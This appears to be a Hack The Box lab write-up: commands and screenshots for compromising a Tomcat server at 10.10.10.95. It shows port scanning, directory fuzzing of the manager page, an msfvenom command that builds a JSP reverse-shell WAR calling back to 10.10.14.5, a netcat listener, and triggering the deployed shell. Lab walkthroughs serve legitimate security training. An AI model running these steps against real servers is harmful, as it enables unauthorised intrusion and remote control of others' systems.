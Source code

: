 ```
nmap -p- -T5 10.10.10.95
http://10.10.10.95:8080/
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.95:8080/manager/FUZZ -e .aspx,.php,.txt,.html,.sh
http://10.10.10.95:8080/manager/html
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -f war -o revshell.war
nc -nlvp 80
http://10.10.10.95:8080/revshell/
```


```
nmap -p- -T5 10.10.10.95
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4576f5f1-7eb0-4800-894b-a92608287032)


```
http://10.10.10.95:8080/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6ec6aea8-028c-4ab0-b49b-0fc4118351ce)


```
http://10.10.10.95:8080/manager/html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/57dac7fa-90ad-49e5-a986-c066fee11282)



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.95:8080/manager/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1bd86ea5-18df-40be-9281-2a8514ab3c7c)
![image](https://github.com/regarmulia/HTB/assets/33616880/b59b82fd-16cf-44f1-89da-0cbfd394b4e0)


```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -f war -o revshell.war
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0ff1889d-e8a5-4a33-b6ea-6a471eb18edc)


```
http://10.10.10.95:8080/manager/html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d42e6ba7-54c0-4c82-b94e-b89f3bb38eb8)
![image](https://github.com/regarmulia/HTB/assets/33616880/9c29c581-2444-416b-9892-1607da41cca5)


```
nc -nlvp 80
http://10.10.10.95:8080/revshell/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0ea335c6-ad65-440b-b3fd-6ab22aee021c)
![image](https://github.com/regarmulia/HTB/assets/33616880/e4069ded-888b-472d-b18d-298a77cc78ce)





